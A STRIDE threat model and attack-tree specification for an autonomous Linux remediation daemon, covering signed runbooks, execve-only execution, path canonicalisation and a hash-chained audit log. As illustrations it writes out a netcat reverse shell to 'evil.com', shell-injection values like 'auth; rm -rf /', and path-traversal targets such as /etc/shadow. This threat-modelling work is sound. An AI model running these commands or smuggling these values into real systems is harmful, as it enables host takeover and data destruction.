

# STRIDE Threat Model, Attack Trees & Adversarial Analysis

## Status
Living Technical Specification / Production Standard

## Domain
Application Security / Systems Architecture / Site Reliability Engineering / Threat Modeling

## Architectural Thesis
The Autonomous Remediation Engine executes autonomous operational repairs on production Linux ARM64 infrastructure. In accordance with the foundational engineering thesis:

> AI proposes. Deterministic systems enforce.

This document establishes an exhaustive, formal STRIDE threat model, quantitative attack trees, and adversarial analysis for the Autonomous Remediation Engine. By design, the engine operates in hostile environments where alert streams, metrics, and AI proposals can be spoofed, corrupted, or manipulated. The engine rejects probabilistic decision-making in the execution path, enforcing deterministic security boundaries: cryptographically signed runbooks, constant-time HMAC verification, strict process identity demotion (UID 10005), filesystem path whitelisting, immutable blast-radius ceilings, and an append-only SHA-256 chained audit ledger.

## Related Specifications and Architecture Documents
- Foundational Philosophy: [00-PROJECT-PHILOSOPHY.md](file:///root/company-project-specs/00-PROJECT-PHILOSOPHY.md)
- System Specification: [08-autonomous-remediation-engine.md](file:///root/company-project-specs/08-autonomous-remediation-engine.md)
- Architecture Specification: [ARCHITECTURE.md](file:///root/autonomous-remediation-engine/docs/ARCHITECTURE.md)
- Security Boundaries & Invariants: [SECURITY-BOUNDARIES.md](file:///root/autonomous-remediation-engine/docs/SECURITY-BOUNDARIES.md)
- Proxy Threat Model Benchmark: [THREAT-MODEL.md](file:///root/ai-security-guardrail-proxy/docs/THREAT-MODEL.md)

---

## 1. System Boundary, Data Flows & Trust Zones



### Trust Boundary Definitions
1. **Zone 0 to Zone 1 (External Ingress Boundary)**: Untrusted network and local IPC boundary. Separates external alert generators, untrusted AI proposal services, and host processes from the engine listener. Enforces TLS 1.3, constant-time HMAC-SHA256 signature verification, and payload size clamps ($1\text{ MB}$).
2. **Zone 1 to Zone 2 (Policy Resolution Boundary)**: Unmarshaled data boundary. Input alert fields are canonicalized into strictly typed Go structs. Declarative runbooks are resolved from local storage and verified against asymmetric Ed25519 signatures.
3. **Zone 2 to Zone 3 (Precondition & Blast-Radius Boundary)**: Safety validation boundary. Verifies that the host environment genuinely exhibits the reported fault before any mutating action is scheduled. Enforces flapping breaker rate limits and acquires exclusive resource locks via `syscall.Flock`.
4. **Zone 3 to Zone 4 (Sandboxed Execution Boundary)**: Kernel process boundary. Child processes are spawned directly via `execve` without an intermediate shell. Drops UID/GID to unprivileged user `remediation-agent` (10005:10005), isolates mount namespaces with read-only root, and canonicalizes all target paths.
5. **Zone 1-4 to Zone 5 (Cryptographic Audit Boundary)**: Non-repudiation boundary. Every transition, parameter binding, execution outcome, and rollback event is bound into an append-only SHA-256 hash chain on disk with POSIX `0600` permissions.

---

## 2. Threat Actors, Motivations & Operational Capabilities

| Threat Actor Class | Motivation & Goals | Access Level | Capabilities & Resources | Primary Attack Vectors |
| :--- | :--- | :--- | :--- | :--- |
| **External Network Attacker** | Service disruption, triggering cascading restarts across cluster nodes, denial of service. | Network reachability to webhook port (`:9443`). | Automated HTTP scanners, alert payload replay tools, packet flooding botnets. | Spoofed alert injection, replay attacks, webhook flooding, ReDoS via malicious payloads. |
| **Compromised Internal Service** | Host privilege escalation, lateral movement, data destruction via host tooling. | Compromised application running on host or local VPC. | Ability to emit internal alertmanager events, log injection triggering false alarms. | Exploiting runbook parameter binding to inject shell metacharacters or unauthorized paths. |
| **Adversarial / Hallucinating LLM** | Accidental or manipulated destructive action proposal via prompt injection. | Ingestion interface to propose runbooks and arguments. | Context manipulation, prompt injection from processed logs, hallucinated parameters. | Proposing destructive runbook IDs, hallucinating critical file paths for cleanup, recursive flapping. |
| **Malicious Host Insider / Local User** | Concealing unauthorized actions, escalating from local user to root, sabotaging host state. | Local unprivileged or semi-privileged shell access. | Filesystem access to runbook configs, lock files, audit logs, and IPC sockets. | Tampering with local runbook files, symlink racing attacks, lockfile denial of service, audit tampering. |

---

## 3. Formal STRIDE Threat Analysis

```
+--------------------------------------------------------------------------------------------------+
|                                    STRIDE THREAT TAXONOMY                                        |
|                                                                                                  |
|   [S] Spoofing:               Alert Source Forgery, Webhook Signature Replay, IPC Impersonation  |
|   [T] Tampering:              Runbook Modification, Parameter Injection, Lockfile Manipulation   |
|   [R] Repudiation:            Denial of Destructive Mutation, Disputed Precondition Telemetry    |
|   [I] Information Disclosure: Diagnostic Secret Leaks, Stack Trace Leaks, Path Reconnaissance     |
|   [D] Denial of Service:      Alert Flood Starvation, Remediation Flapping, Cascading Restarts   |
|   [E] Elevation of Privilege: Shell Metacharacter Escapes, Path Traversal, Sudoers Misconfig     |
+--------------------------------------------------------------------------------------------------+
```

### 3.1 Spoofing (Identity and Authenticity)

#### Threat S-01: Spoofed Ingress Alerts & Webhook Signature Forgery
- **Description**: An attacker sends forged HTTP POST requests to the webhook listener (:9443) claiming a critical service is down, attempting to trigger unnecessary automated service restarts or file pruning.
- **Attack Vector**: Submitting synthetic JSON payloads imitating Prometheus Alertmanager or monitoring systems.
- **Preconditions**: Insecure webhook listener lacking signature validation or using predictable shared secrets.
- **Operational Impact**: Unwarranted service interruptions, cache flushes, and operational chaos.
- **Technical Controls (Defense-in-Depth)**:
  1. Mandatory HMAC-SHA256 authentication: Ingress payloads must contain header `X-Remediation-Signature: sha256=<hex>`.
  2. Constant-time digest verification: Evaluated using `crypto/subtle.ConstantTimeCompare` over the raw payload bytes.
  3. Precondition Invariant Gate: Even if an alert is accepted, the engine verifies the fault directly against the host kernel (e.g., verifying if the target service is actually dead). If the service is healthy, the alert is discarded in `PRECHECK_FAILED`.
- **Verification Criteria**: Unit test sending 1,000 requests with forged or invalid HMAC signatures; assert 100% rejection rate with zero state transitions.
- **Residual Risk**: Compromise of the shared HMAC secret on the monitoring server.

#### Threat S-02: Telemetry & Procfs Spoofing via Local Socket Manipulation
- **Description**: A malicious local process on the host connects to `/run/remediation.sock` and injects high-priority alert triggers.
- **Attack Vector**: Connecting to the local Unix domain socket from an unauthorized local UID.
- **Preconditions**: Permissive Unix domain socket permissions (`0666` or `0777`).
- **Operational Impact**: Local unprivileged users triggering administrative remediation tasks.
- **Technical Controls (Defense-in-Depth)**:
  1. Socket filesystem permissions: `/run/remediation.sock` is created with permissions `0660` owned by `root:remediation-agent`.
  2. Kernel peer credential verification: The daemon extracts peer UID and GID via Linux `SO_PEERCRED` socket options:
     ```go
     ucred, err := syscall.GetsockoptUcred(fd, syscall.SOL_SOCKET, syscall.SO_PEERCRED)
     if err != nil || (ucred.Uid != 0 && ucred.Uid != 10005) {
         // Reject connection immediately
     }
     ```
- **Verification Criteria**: Test execution from a non-whitelisted UID (e.g., UID 1000); verify connection rejection at socket accept.
- **Residual Risk**: Attackers possessing root or `remediation-agent` user privileges.

---

### 3.2 Tampering (Integrity)

#### Threat T-01: Runbook Tampering on Host Storage
- **Description**: An attacker with local filesystem access modifies declarative runbook YAML files in `/etc/remediation/runbooks/` to alter execution commands, insert malicious binaries, or remove blast-radius limits.
- **Attack Vector**: Direct editing of runbook files, injecting commands like `/usr/bin/nc -e /bin/sh evil.com 4444`.
- **Preconditions**: Writable runbook files or unverified runbook loading.
- **Operational Impact**: Arbitrary code execution during the next scheduled remediation.
- **Technical Controls (Defense-in-Depth)**:
  1. Asymmetric cryptographic signatures: Every runbook file is paired with an Ed25519 signature file (`<runbook>.yaml.sig`).
  2. Startup & In-Flight Signature Verification: Prior to registering or executing any runbook, the engine verifies its cryptographic signature against a hard-coded public key compiled into the daemon binary.
  3. Strict POSIX file permissions: Runbook directory is mounted read-only or set to `0755 root:root`, with runbook files set to `0644 root:root`.
- **Verification Criteria**: Automated test modifying a single character in a verified runbook YAML file; assert daemon refuses execution and transitions to `ESCALATED`.
- **Residual Risk**: Compromise of the offline Ed25519 private signing key.

#### Threat T-02: Parameter Tampering & Shell Metacharacter Injection
- **Description**: An alert payload contains malicious annotations (e.g. `service_name: "auth; rm -rf /"`) designed to exploit naive string concatenation in command execution.
- **Attack Vector**: Submitting crafted alert labels that break out of command line arguments when invoked.
- **Preconditions**: Execution of commands through a shell interpreter (`/bin/sh -c "systemctl restart " + alert.Service`).
- **Operational Impact**: Complete host compromise and catastrophic data loss.
- **Technical Controls (Defense-in-Depth)**:
  1. Prohibition of shell interpreters: The engine invokes binaries strictly via `execve` syscalls using discrete argument slices (`[]string`). No shell (`sh`, `bash`) is ever spawned.
  2. Rigid parameter schemas: Runbook parameters are validated against strict alphanumeric regular expressions (e.g. `^[a-zA-Z0-9_\-\.]{1,64}$`). Any parameter containing whitespace, semicolons, backticks, or pipes is rejected in `EVALUATING`.
- **Verification Criteria**: Fuzz test injecting 500 shell injection strings (`$(reboot)`, `|| rm`, `; id`); assert zero command interpolation and 100% parameter validation failure.
- **Residual Risk**: Zero-day vulnerabilities in the target binary being invoked.

#### Threat T-03: In-Flight Lockfile Manipulation & Deadlock Injection
- **Description**: An attacker creates empty lockfiles in `/run/remediation/locks/` with restrictive permissions to prevent the remediation engine from acquiring locks, starving automated repairs.
- **Attack Vector**: Pre-creating lockfiles or acquiring conflicting `flock` handles.
- **Preconditions**: Writable lock directory accessible to unauthorized local users.
- **Operational Impact**: Denial of remediation capabilities; host remains degraded during real incidents.
- **Technical Controls (Defense-in-Depth)**:
  1. Dedicated lock directory `/run/remediation/locks` with permissions `0700` owned exclusively by `remediation-agent:remediation-agent`.
  2. Non-blocking lock acquisition: The engine utilizes `syscall.LOCK_EX | syscall.LOCK_NB`. If a lock cannot be acquired within 100ms, the engine logs the collision, fails closed, and escalates.
- **Verification Criteria**: Test verifying that unprivileged users cannot write to `/run/remediation/locks/`.
- **Residual Risk**: Local root administrator manually interfering with lockfiles.

#### Threat T-04: Cryptographic Audit Ledger Alteration / Truncation
- **Description**: An attacker or rogue process modifies historical records in `/var/log/remediation/audit.log` to erase evidence of destructive actions or policy violations.
- **Attack Vector**: Direct file editing, truncating the log file, or modifying JSON records.
- **Preconditions**: Writable log storage without cryptographic verification.
- **Operational Impact**: Loss of non-repudiation, compromised compliance (SOC 2, ISO 27001), undetected host manipulation.
- **Technical Controls (Defense-in-Depth)**:
  1. Sequential SHA-256 recurrence hash chaining:
     $$H_i = \text{SHA-256}(H_{i-1} \,\|\, \text{Seq}_i \,\|\, \text{Timestamp}_i \,\|\, \text{ResourceID}_i \,\|\, \text{State}_i \,\|\, \text{PayloadDigest}_i)$$
  2. Any alteration of an entry $L_k$ breaks all hashes from $k$ to the current ledger tip.
  3. POSIX permissions `0600` owned by `root:root` with direct append (`O_APPEND`).
- **Verification Criteria**: Test mutating a single bit in a 1,000-entry ledger; assert verification tool detects the exact line number of tampering.
- **Residual Risk**: Attacker obtaining root privileges and modifying both the file and recalculating the entire hash chain from a forged genesis block.

---

### 3.3 Repudiation (Auditability and Non-Repudiation)

#### Threat R-01: Repudiation of Destructive Automated Actions
- **Description**: Following an operational outage, service owners claim that the remediation engine improperly deleted valid data or caused downtime without authorization.
- **Attack Vector**: Blaming automated infrastructure for manual operational errors or software regressions.
- **Preconditions**: Lack of verifiable cryptographic linkage between alert ingress, safety decisions, and child process execution.
- **Operational Impact**: Extended incident investigation times, inability to establish root cause.
- **Technical Controls (Defense-in-Depth)**:
  1. The audit ledger records the exact SHA-256 digest of the inbound alert, the evaluated precondition values, the child process stdout/stderr, and postcondition results.
  2. Immutable state transition record: Every state in the 11-state FSM is cryptographically chained.
  3. High-resolution timestamps (RFC 3339 microsecond precision) recorded directly from the host monotonic clock.
- **Verification Criteria**: End-to-end test verifying that every remediation run creates an unbroken trail from alert receipt to commit/escalate.
- **Residual Risk**: Clock desynchronization on hosts without reliable NTP / PTP synchronization.

#### Threat R-02: Contestation of Triggering Alert Conditions
- **Description**: Upstream teams claim that an automated remediation ran when no alert or incident existed.
- **Attack Vector**: Disputing the validity of an automated remediation trigger.
- **Preconditions**: Remediation actions executed without recording the original trigger evidence.
- **Technical Controls (Defense-in-Depth)**:
  1. Full alert payload digest and HMAC signature are sealed in the audit record.
  2. Precondition check logs the exact kernel measurements (e.g. `disk_free_pct = 6%`, `threshold = 10%`) into the audit entry before execution begins.
- **Verification Criteria**: Verification tool extracts recorded metrics and proves precondition threshold satisfaction.
- **Residual Risk**: None; recorded evidence is mathematically verifiable.

---

### 3.4 Information Disclosure (Confidentiality)

#### Threat I-01: Sensitive Data Exposure in Diagnostic Dumps & Escalation Payloads
- **Description**: When a remediation action fails and triggers human escalation, the engine dumps environment variables, memory contents, or command outputs that contain database credentials, TLS private keys, or API tokens into ticket queues or notification logs.
- **Attack Vector**: Inspecting failure notifications or monitoring channels for leaked secrets.
- **Preconditions**: Unfiltered capture and transmission of process environment variables and stderr output.
- **Operational Impact**: Credential leakage, unauthorized access to sensitive production systems.
- **Technical Controls (Defense-in-Depth)**:
  1. Clean environment sanitization: Child processes inherit an empty environment with only minimal static variables (`PATH=/usr/bin:/bin`, `HOME=/var/lib/remediation`). Process environment variables from the parent daemon are never passed down.
  2. In-memory secret scrubbing: Before any diagnostic output or stderr is written to logs or escalation dispatches, it is passed through a deterministic RE2 regex redactor that masks high-entropy strings, private keys, and authorization headers:
     ```text
     "Failed to bind: password=secret123"  ===>  "Failed to bind: password=[REDACTED]"
     ```
  3. Zero raw private key logging: Core dumps are disabled in child processes using `syscall.Setrlimit(syscall.RLIMIT_CORE, &syscall.Rlimit{Cur: 0, Max: 0})`.
- **Verification Criteria**: Unit test executing an action that prints synthetic API keys and passwords to stderr; assert escalation log contains only redacted tokens.
- **Residual Risk**: Novel secret formats that evade predefined regex scrubbing patterns.

#### Threat I-02: Local Filesystem Reconnaissance via Error Diagnostics
- **Description**: An attacker triggers runbooks with malformed paths or resources to infer host directory structure, service names, and internal software versions from error responses.
- **Attack Vector**: Probing the webhook listener with boundary conditions and reading error responses.
- **Preconditions**: Verbose error messages returned across the network interface.
- **Operational Impact**: Information leakage facilitating targeted host exploits.
- **Technical Controls (Defense-in-Depth)**:
  1. Generic external error messages: Ingress webhook responses return generic HTTP status codes (`400 Bad Request`, `403 Forbidden`, `500 Internal Error`) with zero internal stack traces or path names.
  2. Detailed diagnostic information is confined strictly to the local POSIX `0600` audit ledger.
- **Verification Criteria**: Penetration test verifying that HTTP error payloads contain zero host paths or runtime details.
- **Residual Risk**: None.

---

### 3.5 Denial of Service (Availability)

#### Threat D-01: Denial of Service via Alert Flooding & Worker Starvation
- **Description**: An attacker floods the webhook listener with tens of thousands of validly formatted alerts per second, exhausting CPU, memory, and socket file descriptors, preventing the engine from processing real incidents.
- **Attack Vector**: Distributed HTTP flooding targeting the remediation ingress port.
- **Preconditions**: Unbounded alert ingestion queues and unthrottled worker spawning.
- **Operational Impact**: Inability of the host to recover from real operational faults; eventual daemon OOM crash.
- **Technical Controls (Defense-in-Depth)**:
  1. Strict Ingestion Rate Limiting: Ingress connection throttling limits incoming requests to $100\text{ req/sec}$ per source IP using an in-memory token bucket.
  2. Lock-free ring buffer: Incoming alerts are placed into a bounded circular buffer (capacity: 4096). When full, new incoming alerts are dropped with HTTP `429 Too Many Requests`.
  3. Fixed Worker Pool: Maximum concurrent remediation workers capped at $N = \min(8, \text{NumCPU})$. Goroutines are never spawned dynamically per request.
- **Verification Criteria**: Load test flooding daemon with 50,000 alerts/sec; verify RSS memory remains $< 24\text{MB}$ and daemon maintains responsiveness.
- **Residual Risk**: Upstream network interface saturation.

#### Threat D-02: Infinite Remediation Flapping & Cascading Restarts
- **Description**: A downstream database failure causes 50 backend services to fail health checks. The remediation engine repeatedly restarts all 50 services every 30 seconds. The repeated restarts swamp the database with connection handshakes, guaranteeing it can never recover (thundering herd avalanche).
- **Attack Vector**: Natural infrastructure failure mode amplified by unconstrained automation.
- **Preconditions**: Absence of remediation damping, exponential backoff, or flapping detection.
- **Operational Impact**: Sustained cluster-wide outage; failure cascade.
- **Technical Controls (Defense-in-Depth)**:
  1. Mathematical Flapping Breaker:
     $$\text{Executions}(R, 10\text{ min}) \le 2 \quad \land \quad \text{Executions}(R, 1\text{ hour}) \le 4$$
  2. Mandatory Cooldown: Minimum $300\text{ seconds}$ delay between consecutive actions on the same resource.
  3. Automatic Circuit Trip: When damping is tripped, the state machine transitions to `PRECHECK_FAILED`, halts all automated execution on that resource for $3600\text{ seconds}$, and emits a single high-priority human page.
- **Verification Criteria**: Chaos test simulating persistent service failure; verify engine executes exactly 2 restarts, trips the breaker, and stops.
- **Residual Risk**: Human operator delays in responding to the escalated page.

#### Threat D-03: Host Resource Starvation via Fork Bombs or Spool Exhaustion
- **Description**: A child action binary misbehaves, spawns thousands of background threads, or allocates hundreds of megabytes of memory, causing a host-level Out-of-Memory (OOM) kernel panic.
- **Attack Vector**: Running unconstrained scripts or binaries.
- **Preconditions**: Spawning child processes without Linux cgroup limits.
- **Operational Impact**: Kernel panic, crashing host operating system.
- **Technical Controls (Defense-in-Depth)**:
  1. Linux Cgroups v2 clamps: Ephemeral remediation cgroup enforces `pids.max = 10` and `memory.max = 256M`.
  2. Hard wall-clock timeout: Hard timeout ($15\text{s}$ - $30\text{s}$) with automatic `SIGKILL` ladder.
- **Verification Criteria**: Chaos test spawning a fork-bomb script within the sandbox; verify kernel stops forks at 10 PIDs and terminates the process group.
- **Residual Risk**: Host kernel bugs in cgroup v2 controller implementation.

---

### 3.6 Elevation of Privilege (Authorization & Policy Bypass)

#### Threat E-01: Arbitrary Command Execution via Runbook Parameter Interpolation
- **Description**: An attacker crafts an alert payload with embedded commands that are concatenated into an action argument list, executing unauthorized commands under daemon authority.
- **Attack Vector**: Parameter injection into unescaped CLI arguments.
- **Preconditions**: Dynamic argument interpolation using string formatting (`fmt.Sprintf`).
- **Operational Impact**: Complete host takeover.
- **Technical Controls (Defense-in-Depth)**:
  1. Immutable Action Templates: Runbook argument lists are static definitions. Variables are bound only to explicit, typed fields.
  2. Regex Parameter Clamps: Target values are checked against strict character white-lists (`^[a-zA-Z0-9_\-\.]{1,64}$`).
  3. Syscall Execution: Directly invoking `syscall.Exec` bypasses all shell command parsers.
- **Verification Criteria**: Injection test attempting argument smuggling; verify argument validation rejects input with `400 Bad Request`.
- **Residual Risk**: Logic flaws inside the target compiled binary.

#### Threat E-02: Path Traversal Escaping Sandbox Directory
- **Description**: An attacker crafts an alert targeting file cleanup and specifies a path like `/var/log/../../etc/shadow` or manipulates symbolic links within `/var/log` to point to `/etc/passwd`.
- **Attack Vector**: Path traversal, symlink redirection (TOCTOU attacks).
- **Preconditions**: Naive string prefix matching without symlink resolution.
- **Operational Impact**: Destruction of critical system authentication databases; host unbootable.
- **Technical Controls (Defense-in-Depth)**:
  1. Canonical Symlink Resolution: Prior to evaluation, every candidate path is resolved via `filepath.EvalSymlinks(filepath.Clean(p))`.
  2. Prefix Containment Verification: The canonical physical path must reside strictly inside the declared directory allowlist (e.g. `/var/log/app/`).
  3. Operating System Root Blacklist: Explicit checks forbid operations intersecting `/etc`, `/bin`, `/boot`, `/usr`, `/var/lib`.
  4. Mount Namespace Read-Only Root: The child mount namespace remounts `/` as `MS_RDONLY`, physically preventing write/unlink operations on system roots even if path checks were bypassed.
- **Verification Criteria**: Test creating a symlink `/var/log/app/exploit.gz -> /etc/shadow` and triggering cleanup; assert engine detects symlink escape and rejects with `ErrSymlinkEscape`.
- **Residual Risk**: Operating system kernel filesystem race conditions during directory restructuring.

#### Threat E-03: Sudoers Privilege Escalation via Permissive Rules
- **Description**: The unprivileged service user (`remediation-agent`) executes commands through `sudo` that allow wildcards or interactive breakout (e.g., `sudo systemctl status` invoking a pager that allows `!/bin/sh`).
- **Attack Vector**: Exploiting misconfigured sudoers rules or terminal pagers.
- **Preconditions**: Overly permissive sudoers definitions (`NOPASSWD: ALL` or wildcards).
- **Operational Impact**: Unprivileged daemon user escalates to full root shell access.
- **Technical Controls (Defense-in-Depth)**:
  1. Exact sudoers entries: Zero wildcards. Every command in `/etc/sudoers.d/remediation` specifies exact binary paths and exact arguments:
     ```sudoers
     remediation-agent ALL=(ALL) NOPASSWD: /usr/bin/systemctl restart auth-service.service
     ```
  2. Pager suppression: Sudoers defaults enforce `Defaults:remediation-agent !requiretty` and systemd commands are executed with `--no-pager`.
  3. `PR_SET_NO_NEW_PRIVS`: When running non-privileged actions, the child process explicitly executes `prctl(PR_SET_NO_NEW_PRIVS, 1)`, preventing any subsequent `setuid` or `sudo` elevation.
- **Verification Criteria**: Audit of `/etc/sudoers.d/remediation` validating zero wildcards and zero pager escapes.
- **Residual Risk**: Privilege escalation vulnerabilities inside systemd binaries.

---

## 4. Formal Attack Trees

### Attack Tree AT-01: Trigger Cascading Cluster Outage via Alert Flooding
- **Goal**: Induce cluster-wide downtime by forcing automated restarts across all infrastructure nodes.
- **Impact**: Critical (Sev-1 Total System Outage).

```
Root: Cause Cluster Outage via Cascading Restarts
├── 1. Ingress Webhook Exploitation
│   ├── 1.1 Flood Unauthenticated Alert Payloads [P: Zero, I: Critical, D: Low, C: Low]
│   │   └── Mitigation: Constant-time HMAC-SHA256 verification rejects unauthenticated requests
│   └── 1.2 Replay Intercepted Valid Alert Packets [P: Low, I: Critical, D: Med, C: Low]
│       └── Mitigation: Timestamp freshness check (tau >= now - 60s) + Deduplication window
├── 2. Circumvent Precondition Safety Gates
│   ├── 2.1 Trigger Restarts While Services are Healthy [P: Zero, I: High, D: Low, C: Low]
│   │   └── Mitigation: Kernel precondition invariant probe verifies service state is non-active
│   └── 2.2 Exploit High-Frequency Alert Oscillation [P: Zero, I: Critical, D: Low, C: Low]
│       └── Mitigation: Leaky-bucket damping limits actions to <= 2 per 10m, then freezes for 1h
└── 3. Exploit Multi-Node Concurrency
    └── 3.1 Synchronized Alert Storm Across All Hosts [P: Med, I: High, D: Med, C: Med]
        └── Mitigation: Jittered execution delay + Damping tripwires force human escalation
```

---

### Attack Tree AT-02: Arbitrary Command Execution as Root via Parameter Injection
- **Goal**: Execute arbitrary shell commands as root or elevated user via the remediation daemon.
- **Impact**: Critical (Total Host Compromise).

```
Root: Execute Arbitrary Command via Parameter Injection
├── 1. Shell Metacharacter Injection
│   ├── 1.1 Inject Command Separators (";", "&&", "|") in Alert Labels [P: Zero, I: Critical, D: Low, C: Low]
│   │   └── Mitigation: Zero shell invocations; child spawned directly via execve with []string args
│   └── 1.2 Backtick / Subshell Expansion ("`id`", "$(reboot)") [P: Zero, I: Critical, D: Low, C: Low]
│       └── Mitigation: Rigid parameter regex white-listing (^[a-zA-Z0-9_\-\.]{1,64}$)
├── 2. Sudoers Privilege Escalation
│   ├── 2.1 Interactive Pager Escape via Systemctl [P: Zero, I: Critical, D: Low, C: Low]
│   │   └── Mitigation: Hardcoded --no-pager flags + immutable sudoers argument locking
│   └── 2.2 Sudo Binary Path Hijacking [P: Zero, I: Critical, D: Low, C: Low]
│       └── Mitigation: Sudoers secure_path locked to /usr/bin:/bin; relative paths forbidden
└── 3. Local Runbook Tampering
    └── 3.1 Modify YAML Command Definitions on Disk [P: Zero, I: Critical, D: Low, C: Low]
        └── Mitigation: Mandatory Ed25519 signature verification on all runbooks prior to execution
```

---

### Attack Tree AT-03: Arbitrary File Deletion via Path Traversal Attack
- **Goal**: Delete critical system files (`/etc/passwd`, `/var/lib/postgresql/data`) during automated cleanup.
- **Impact**: Critical (Irreversible Host / Data Destruction).

```
Root: Delete Critical System Files via Path Traversal
├── 1. Syntactic Path Traversal
│   ├── 1.1 Directory Climbing ("../../../etc/shadow") [P: Zero, I: Critical, D: Low, C: Low]
│   │   └── Mitigation: filepath.Clean + filepath.IsAbs check
│   └── 1.2 Embedded Null Bytes ("log.gz\0/etc/passwd") [P: Zero, I: Critical, D: Low, C: Low]
│       └── Mitigation: Go string boundary safety; reject null bytes in path validator
├── 2. Filesystem Symlink Redirection
│   ├── 2.1 Symlink Inside Log Directory Pointing to System Root [P: Zero, I: Critical, D: Low, C: Low]
│   │   └── Mitigation: filepath.EvalSymlinks canonicalizes physical disk targets before comparison
│   └── 2.2 TOCTOU Symlink Race During Deletion [P: Low, I: High, D: High, C: Med]
│       └── Mitigation: openat(O_NOFOLLOW) + Mount namespace remounts root as MS_RDONLY
└── 3. Unbounded Blast-Radius Deletion
    └── 3.1 Prune Entire Filesystem Due to Wildcard [P: Zero, I: Critical, D: Low, C: Low]
        └── Mitigation: Blast-Radius hard clamp (MaxDeletedBytes <= 500MB) halts deletion
```

---

### Attack Tree AT-04: Conceal Unauthorized Destruction via Audit Ledger Tampering
- **Goal**: Alter or truncate historical audit records to prevent forensic discovery of malicious acts.
- **Impact**: High (Destruction of Legal & Regulatory Compliance Evidence).

```
Root: Conceal Malicious Incident via Audit Tampering
├── 1. Retrospective Record Modification
│   ├── 1.1 Edit Historical JSON Entry on Disk [P: Zero, I: High, D: Low, C: Low]
│   │   └── Mitigation: Sequential SHA-256 hash chaining invalidates all subsequent block signatures
│   └── 1.2 Truncate Recent Log Lines [P: Zero, I: High, D: Low, C: Low]
│       └── Mitigation: Sequence number continuity checks detect truncation; periodic external push
├── 2. Local Filesystem Deletion
│   ├── 2.1 Unlink /var/log/remediation/audit.log [P: Low, I: High, D: Med, C: Low]
│   │   └── Mitigation: File permissions POSIX 0600 root:root; daemon halts all work if log unlinked
│   └── 2.2 Fill Disk Partition to Force Logging Failure [P: Med, I: High, D: Med, C: Low]
│       └── Mitigation: Fail-Closed guarantee; daemon halts all mutations immediately if disk is full
```

---

## 5. Quantitative DREAD Threat Rating Matrix

Risk rating is computed using the standard DREAD methodology:
$$\text{Risk Score} = \frac{\text{Damage} + \text{Reproducibility} + \text{Exploitability} + \text{Affected Users} + \text{Discoverability}}{5}$$

| Threat ID | Threat Name | D | R | E | A | D | Total | Risk Tier | Primary Deterministic Mitigation |
| :--- | :--- | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :--- |
| **S-01** | Spoofed Ingress Alerts & Webhook Forgery | 8 | 9 | 4 | 7 | 6 | **6.8** | **High** | Constant-time HMAC-SHA256 verification + Precondition kernel probes. |
| **S-02** | Local Socket Telemetry Impersonation | 7 | 8 | 4 | 6 | 5 | **6.0** | **Medium** | POSIX 0660 permissions + Linux `SO_PEERCRED` UID verification. |
| **T-01** | Local Runbook Configuration Tampering | 10 | 9 | 3 | 10 | 4 | **7.2** | **Critical** | Asymmetric Ed25519 cryptographic signatures on all runbooks. |
| **T-02** | Parameter Tampering & Shell Injection | 10 | 9 | 3 | 10 | 5 | **7.4** | **Critical** | Prohibition of shell interpreters (`execve` only) + Regex parameter clamps. |
| **T-03** | In-Flight Lockfile Manipulation | 6 | 8 | 5 | 6 | 5 | **6.0** | **Medium** | Dedicated `0700` lock directory + Non-blocking `syscall.Flock`. |
| **T-04** | Audit Ledger Alteration / Truncation | 8 | 9 | 3 | 8 | 4 | **6.4** | **High** | Sequential SHA-256 recurrence hash chaining + POSIX 0600. |
| **R-01** | Repudiation of Destructive Actions | 7 | 8 | 5 | 7 | 4 | **6.2** | **Medium** | Immutable cryptographic audit ledger recording full input digests. |
| **I-01** | Sensitive Data Exposure in Diagnostics | 7 | 7 | 5 | 7 | 6 | **6.4** | **High** | Empty child environment + RE2 high-entropy secret scrubbing. |
| **D-01** | Alert Flood Worker Starvation | 7 | 9 | 6 | 8 | 7 | **7.4** | **Critical** | Token bucket rate limiting + Bounded ring buffer + Fixed worker pool. |
| **D-02** | Remediation Flapping & Cascading Restarts | 9 | 8 | 6 | 9 | 6 | **7.6** | **Critical** | Leaky-bucket damping limits ($\le 2$ runs/10m, $\le 4$ runs/1h, 300s cooldown). |
| **D-03** | Host Resource Starvation via Fork Bombs | 8 | 8 | 4 | 8 | 5 | **6.6** | **High** | Cgroups v2 `pids.max = 10` + `memory.max = 256M` + SIGKILL deadline. |
| **E-01** | Command Execution via Parameter Injection | 10 | 9 | 3 | 10 | 5 | **7.4** | **Critical** | Direct `execve` execution + Alphanumeric parameter validation. |
| **E-02** | Path Traversal Deletion of System Files | 10 | 8 | 3 | 10 | 4 | **7.0** | **Critical** | `filepath.EvalSymlinks` + Whitelist prefix matching + Read-only root. |
| **E-03** | Sudoers Privilege Escalation | 9 | 8 | 3 | 9 | 4 | **6.6** | **High** | Exact sudoers arguments without wildcards + `PR_SET_NO_NEW_PRIVS`. |

---

## 6. Concrete Technical Mitigations & Defense-in-Depth Architecture

The Autonomous Remediation Engine implements five layers of deterministic technical mitigations:

```
[Layer 1: Cryptographic Ingress & Identity]
  - TLS 1.3 Strict Ciphers
  - Constant-time HMAC-SHA256 signature verification
  - Linux SO_PEERCRED local socket verification
            |
            v
[Layer 2: Runbook Verification & Parameter Clamping]
  - Ed25519 runbook signatures
